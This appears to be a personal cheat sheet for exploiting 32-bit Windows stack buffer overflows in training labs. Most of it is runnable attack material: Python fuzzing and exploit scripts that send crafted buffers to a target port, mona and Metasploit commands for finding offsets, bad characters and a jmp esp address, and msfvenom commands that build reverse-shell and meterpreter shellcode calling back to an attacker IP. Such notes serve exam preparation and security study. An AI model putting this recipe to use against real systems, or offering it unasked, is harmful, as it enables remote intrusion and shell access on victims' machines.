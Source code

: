 # BufferOverflow 32 Bit

Encoding needs to be "latin-1"
End send command with "\r\n"

### EIP

**Extended Instruction Pointer**
Register for the next command, e.g. jump back address. If you can overwrite the EIP you can control where to jump next

### ESP
**Extended Stack Pointer**
Register contains the value of the last address which was pushed to the stack. ESP ist the top point of the stack. There we can address our shellcode.

### EBP
**Extended Base Stack Pointer**
Register contains the first address of a stack. This one is dynamic and had to be definded. 

## nasm

Get opcode: 

```console
$ locate nasm_shell.rb

$ /usr/shares/metasploit-framework/tools/exploit/nasm_shell.rb
>>> jmp esp
00000000  FFE4		jmp esp
```

## Mona

```console
Set up working directory:
!mona config -set workingfolder c:\mona\%p

Find offset:
!mona findmsp -distance 600
- distance lenght of payload

Create bytearray:
!mona bytearray -b "\x00"
-b "bad chars"

Compare bytearray with bytes in stack
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP address>

Find jump esp
!mona jmp -r esp -cpb "<all bad chars>"

!mona jmp -r esp -m <name of exe>
```

## Fuzzing

Make note of the largest number of bytes

```python
#!/usr/bin/env python3
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5
prefix = "OVERFLOW1 "
string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

## Crash Replication and Controlling EIP

```python
#!/usr/bin/env python3
import socket

ip = "MACHINE_IP"
port = 1337
prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

Create a cyclic pattern 400 bytes longer than the crash bytes 

```console
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600

```

Copy that string to **payload**
Run the python script and crash binary again.
Check the EIP offset:

	- with mona `!mona findmsp -distance 600`
	or
	- with metasploit `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <EIP adress>`

Set the offset in python script and change payload to "" and change `retn` to `BBBB`
Crash the server again, the EIP register should now show 4 B's -> `42424242`

## Finding bad chars

Generate a bytearray using mona (excluding \x00): `!mona bytearray -b "\x00"`

Now generate a string which is identical to the bytearray with python (excluding \x00)

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Update exploit script **payload** with string generated from the above python script.
Crash binary again and check with mona for bad chars: `!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP address>`

Check one after one. 
Generate a new byte array with mona e.g. `!mona bytearray -b "\x00\xa2` and remove "\xa2" from payload.
Crash binary again and compare the bytearray with esp address till message `Unmodified` appears.

## Finding jmp point

Run mona `!mona jmp -r esp -cpb "<all bad chars>"`
Choose an address and update exploit.py with the address at var `retn`
Address must be backwards! (little endian)
e.g. \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit

## Generate payload

```console
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.66.62 LPORT=9001 EXITFUNC=thread -b "\x00" -f c

With encoding
$ msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "<all bad chars>" -f c x86/shikata_ga_nai

$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.66.62 LPORT=4444 EXITFUNC=thread -b "\x00" -f c x86/shikata_ga_nai6
```

Copy generated C string without semicolon to exploit.py under payload

```
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```

## Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

`padding = "\x90" * 16`

## Exploit

Run crash again to get a reverse shell

Opt:
Set breakpoint to jmp point address and go steps further to watch NOPs and decoding the payload.